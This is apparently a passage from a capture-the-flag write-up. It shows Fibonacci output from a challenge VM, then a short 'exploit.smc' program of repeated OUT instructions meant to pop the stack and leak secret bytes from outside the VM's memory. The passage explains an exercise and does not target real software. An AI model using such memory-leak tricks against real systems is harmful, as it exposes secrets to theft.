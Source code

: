 ```
1597
2584
4181
6765
10946
17711
28657
46368
75025
121393
196418
317811
514229
832040
1346269
2178309
3524578
5702887
9227465
14930352
24157817
39088169
63245986
102334155
165580141
267914296
433494437
701408733
1134903170
1836311903
2971215073
```

Now we can run code on the VM server. The `bug_report` page mentioned leaking secrets from outside of the VM memory so let's just try a bunch of `OUT` commands which will pop the stack and print the value as a uint8. Since we're printing bytes we'll remove the conversion to a string in the python code. 

`exploit.smc`
```
main:
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
  out
```